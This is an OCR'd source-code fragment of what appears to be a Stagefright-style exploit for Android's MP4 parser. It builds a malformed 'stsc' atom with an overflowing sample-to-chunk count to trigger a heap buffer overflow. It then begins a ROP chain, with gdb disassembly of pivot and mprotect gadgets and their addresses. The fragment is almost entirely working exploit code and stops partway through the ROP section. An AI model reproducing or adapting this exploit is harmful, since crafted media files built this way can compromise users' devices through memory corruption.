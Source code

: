     # this is the clean version...
    if not do_overflow:
        ret += struct.pack('>L', num_alloc) # mNumSampleToChunkOffsets
        ret += 'Z' * (12 * num_alloc)
        return make_chunk('stsc', ret)

    # now the explicit version. (trigger the bug)
    ret += struct.pack('>L', 0xc0000000 + num_alloc) # mNumSampleToChunkOffsets

    # fill in the entries that will overflow the buffer
    for x in range(0, num_write):
        ret += make_stsc_entry(sp_addr, sp_addr, sp_addr)

    ret = make_chunk('stsc', ret)

    # patch the data_size
    ret = struct.pack('>L', 8 + 8 + (num_alloc * 12)) + ret[4:]

    return ret

#
# Build the ROP chain
#
# ROP pivot by Georg Wicherski! Thanks!
#
"""
(gdb) x/10i __dl_restore_core_regs
   0xb0002850 <__dl_restore_core_regs>: add r1, r0, #52 ; 0x34
   0xb0002854 <__dl_restore_core_regs+4>:   ldm r1, {r3, r4, r5}
   0xb0002858 <__dl_restore_core_regs+8>:   push    {r3, r4, r5}
   0xb000285c <__dl_restore_core_regs+12>:  ldm r0, {r0, r1, r2, r3, r4, r5, r6, r7, r8, r9, r10, r11}
   0xb0002860 <__dl_restore_core_regs+16>:  ldm sp, {sp, lr, pc}
"""

"""
b0001144 <__dl_mprotect>:
b0001144:       e92d0090        push    {r4, r7}
b0001148:       e3a0707d        mov     r7, #125        ; 0x7d
b000114c:       ef000000        svc     0x00000000
b0001150:       e8bd0090        pop     {r4, r7}
b0001154:       e1b00000        movs    r0, r0
b0001158:       512fff1e        bxpl    lr
b000115c:       ea0015cc        b       b0006894 <__dl_raise+0x10>
"""
